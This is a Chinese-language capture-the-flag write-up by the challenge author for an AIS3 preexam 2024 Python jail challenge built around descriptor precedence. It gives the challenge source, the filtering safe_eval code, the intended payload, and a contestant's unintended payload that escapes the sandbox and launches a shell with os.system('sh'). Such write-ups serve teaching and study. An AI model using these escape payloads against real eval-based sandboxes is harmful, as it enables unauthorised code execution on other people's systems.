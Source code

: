 # AIS3 preexam 2024

這次在 AIS3 preexam 只有出一題，主要用的艮是之前在研究 cPython 時發現的一個有趣特性，希望大家會喜歡 ouo

## Can you describe Pyjail?

solve: 2/321

TL;DR;
1. 發現 [python descriptor 優先度性質](https://blog.vincent55.tw/posts/python_descriptor/)
2. 找到 setattr
3. 將 descriptor 加上 `__set__` 屬性，結束！

```python!
class Desc:
    """
    Welcome to my 🐍 ⛓️
    """

    def __get__(self, objname, obj):
        return __import__("conf").flag

    def desc_helper(self, name):
        origin = getattr(type, name)
        if origin == type.__getattribute__:
            raise NameError(
                "Access to forbidden name %r (%r)" % (name, "__getattribute__")
            )
        self.helper = origin


class Test:
    desc = Desc()
    
test = Test()
test.desc = "flag{fakeflag}"

# Just a tricky way to print a welcome message, or maybe a hint :/
# You can just `print(getdoc(Desc))`
# This is not part of the challenge, but if you can get the flag through here, please contact @Vincent55.
welcome_msg = """
desctmp := Desc()
desctmp.desc_helper("__base__")
Obj := desctmp.helper
desctmp := Desc()
desctmp.desc_helper("__subclasses__")
print(getdoc(desctmp.helper(Obj)[-2]))
""".strip().replace("\n", ",")
welcome_msg = f"({welcome_msg})"

safe_eval(
    welcome_msg,
    {"__builtins__": {}},
    {"Desc": Desc, "print": print, "getdoc": getdoc},
)


# Your challenge begin here!
payload = input("✏️: ")

safe_eval(
    payload,
    {"__builtins__": {}},
    {"Desc": Desc},
)

# print(f"test.__dict__: {test.__dict__}")
print(f"🚩: {test.desc}")

```

這題先是定義了一個 Descriptor 將 flag 放到 `__get__` 中，並且讓 Test 使用這個 Descriptor，實例化之後將假 flag 放到 test 的 `__dict__` 中，導致最後在 `print(f"🚩: {test.desc}")` 時只會印出假的 flag。

這題的預期解是往 descriptor 的類別上加入 `__set__` 屬性，透過 descriptor 的特性（詳見 [深入解析 Python descriptor 與其 opcode 處理](https://blog.vincent55.tw/posts/python_descriptor/)），讓在 `GETATTR` 時優先使用 `__get__`，如此一來最後就會將 flag 印出來。

那接下來的問題就回到我們該如何往類別上加入屬性呢，我們有一次的 safe_eval 控制機會，並且可以發現他將 `Desc` 也放進 context 了，沒錯，我們要在 `Desc` 中找 gadget。

```python!
from types import CodeType

_UNSAFE_ATTRIBUTES = [
    "f_builtins",
    "f_globals",
    "f_locals",
    "gi_frame",
    "gi_code",
    "co_code",
    "func_globals",
    "format",
    "format_map",
]


def test_no_dunder_name(code_obj, expr):
    for name in code_obj.co_names:
        if "__" in name or name in _UNSAFE_ATTRIBUTES:
            raise NameError("Access to forbidden name %r (%r)" % (name, expr))


def test_codeobj(code_obj, expr):
    test_no_dunder_name(code_obj, expr)
    for const in code_obj.co_consts:
        if isinstance(const, CodeType):
            test_codeobj(const, expr)


def test_expr(expr):
    code_obj = compile(expr, "", "eval")
    test_no_dunder_name(code_obj, expr)
    test_codeobj(code_obj, expr)
    return code_obj


def safe_eval(expr, globals_dict, locals_dict):
    c = test_expr(expr)
    return eval(c, globals_dict, locals_dict)
```

可以看到在這個 `safe_eval.py` 中會遞迴的在 `code object` 中看 `co_names` 是否有存在 `__`，也就是說我們不能直接用 dunder method。

```python!
class Desc:
    """
    Welcome to my 🐍 ⛓️
    """

    def __get__(self, objname, obj):
        return __import__("conf").flag

    def desc_helper(self, name):
        origin = getattr(type, name)
        if origin == type.__getattribute__:
            raise NameError(
                "Access to forbidden name %r (%r)" % (name, "__getattribute__")
            )
        self.helper = origin
```

回來看到 `Desc` 當中有定義了 `desc_helper` ，裡面有 getattr 可以使用，由於我們的目的是拿到 setattr 之類的東西，在 `type` 中找一下就會發現我們可以使用 `type.__setattr__`！

於是我們最終的 payload 就長這樣:
```python!
payload = """
desctmp := Desc()
desctmp.desc_helper("__setattr__")
Setattr := desctmp.helper
Setattr(Desc, "__set__", 1)
""".strip().replace("\n", ",")
payload = f"({payload})"
print(payload)
```

這題 @maple3142 有找到一個非預期解，主要是在 `desc_helper` 過程中雖然有檢查不能回傳 `type.__getattribute__`，但如果是回傳 `type.__dict__` 之後再透過 `a['__getattribute__']` 就可以拿到 getattr 了。
這樣不會被 safe_eval 擋下來的原因是 `a['__getattribute__']`  這種操作的 dunder strings 是在 `co_consts` 不是在 `co_name`，有了 getattr 後就能直接 getshell 了，不用管 descriptor 的性質。

maple 的 payload:
```python!
(d:=Desc(),d.desc_helper('__dict__'),ga:=d.helper['__getattribute__'],d.desc_helper('__base__'),object:=d.helper,gao:=ga(object,'__getattribute__'),newobj:=gao([],'__reduce_ex__')(3)[0]),gao(newobj,'__builtins__')['__import__']('os').system('sh')
```
 
